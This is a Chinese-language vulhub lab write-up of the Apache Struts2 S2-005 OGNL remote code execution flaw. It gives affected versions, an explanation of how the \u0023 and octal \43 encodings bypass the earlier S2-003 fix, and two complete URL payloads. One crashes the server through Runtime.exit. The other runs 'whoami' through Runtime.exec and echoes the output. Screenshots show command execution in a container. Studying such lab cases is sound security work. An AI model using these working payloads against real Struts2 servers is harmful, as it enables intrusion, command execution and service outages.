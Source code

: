 # Struts2_005_远程代码执行

###### by ADummy

### 0x00利用路线

​			直接url执行payload，由于浏览器url输入框的长度有限，可以使用Hackbar插件，或burpsuite抓包测试。无回显。

### 0x01漏洞介绍

​			S2-005是由于官方在修补S2-003不全面导致绕过补丁造成的。我们都知道访问Ognl的上下文对象必须要使用#符号，S2-003对#号进行过滤，但是没有考虑到unicode编码情况，导致\u0023或者8进制\43绕过。S2-005则是绕过官方的安全配置（禁止静态方法调用和类方法执行），再次造成漏洞。

​			影响版本

  		2.0.0 - 2.1.8.1

### 0x02漏洞复现

#### 无回显payload：

**http://www.xxxx.com/aaa.action?('\u0023_memberAccess[\'allowStaticMethodAccess\']')(meh)=true&(aaa)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dnew%20java.lang.Boolean("false")))&(asdf)(('\u0023rt.exit(1)')(\u0023rt\u003d@java.lang.Runtime@getRuntime()))=1**

#### 有回显payload:(不是很好用)

**('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'whoami\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))**

提交上述URL，就会导致服务器down掉。把编码转换过来为下面三个步骤：

> **（1）?('#_memberAccess['allowStaticMethodAccess']')(meh)=true  
> （2）&(aaa)(('#context['xwork.MethodAccessor.denyMethodExecution']=#foo')(#foo=new%20java.lang.Boolean("false")))**
> **（3）&(asdf)(('#rt.exit(1)')(#rt=@java.lang.Runtime@getRuntime()))=1**

第一步将_memberAccess变量中的allowStaticMethod设置为true，这里payload还要加括号，并且还带个"(meh)"呢？其实是为了遵守Ognl语法树的规则，这个后面再说。第一步完成后，就可以执行静态方法了。

第二步将上下文中的xwork.MethodAccessor.denyMethodExecution 设置为false，即允许方法的执行，这里的MehodAccessor是Struts2中规定方法/属性访问策略的类，也存在与Ognl的上下文中。同样遵守Ognl语法树规则。

第三步就是真正的攻击代码，前两步就是要保证第三步成功执行，第三步就是执行了关闭服务器的代码。但是要过调用Runtime类的静态方法获取一个Runtime对象



​			**登录界面**

![S2_005_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_005_rce_1.jpg)



​			**Burpsuite抓包，修改url**

![S2_005_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_005_rce_2.jpg)

​				

​			**进入容器，发现touch  /tmp/success 成功执行**

![S2_005_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_005_rce_3.jpg)



​				

### 0x03参考资料

https://blog.csdn.net/rlenew/article/details/110630865

https://exploitcat.blog.csdn.net/article/details/41626959
